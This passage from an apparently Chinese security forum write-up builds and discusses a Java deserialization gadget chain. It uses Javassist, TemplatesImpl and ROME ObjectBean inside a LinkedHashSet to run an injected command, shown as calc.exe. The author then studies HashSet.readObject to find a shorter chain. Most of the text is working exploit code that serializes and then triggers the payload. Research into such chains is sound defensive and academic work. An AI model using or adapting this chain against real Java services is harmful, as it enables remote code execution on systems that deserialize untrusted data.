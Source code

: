 ```java
        constructor.setBody("        try {\n" +
                "            Runtime.getRuntime().exec(\"calc.exe\");\n" +
                "        } catch (Exception ignored) {\n" +
                "        }");
        byte[] bytes = ctClass.toBytecode();

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templates, "_name", "a");

        HashMap map = new HashMap();

        ObjectBean objectBean = new ObjectBean(Templates.class, templates);
        ObjectBean objectBean1 = new ObjectBean(ObjectBean.class, objectBean);

        HashSet set = new LinkedHashSet();
        set.add(objectBean);
        set.add(objectBean1);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(set);
        oos.close();
        System.out.println(new String(Base64.encode(barr.toByteArray())).length());

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = ois.readObject();
    }
}

```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-878a1c774845274dae9d2f50db3e0f9d8e8f7e7f.png)

（甚至比上面的exp还要长一些呜呜呜

‍

回到 Y4? 的思路，这里实际上可以去看 set 的源码，HashSet 的 readObject 的最后就是一处 map.put，利用的也还是 HashMap 对 key 的去重，我们完全可以把 put 提出来，单独去利用 put。

```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in any hidden serialization magic
        s.defaultReadObject();

        // Read in HashMap capacity and load factor and create backing HashMap
        int capacity = s.readInt();
        float loadFactor = s.readFloat();
        map = (((HashSet)this) instanceof LinkedHashSet ?
               new LinkedHashMap<E,Object>(capacity, loadFactor) :
               new HashMap<E,Object>(capacity, loadFactor));

        // Read in size
        int size = s.readInt();

        // Read in all elements in the proper order.
        for (int i=0; i<size; i++) {
            E e = (E) s.readObject();
            map.put(e, PRESENT);
        }
```
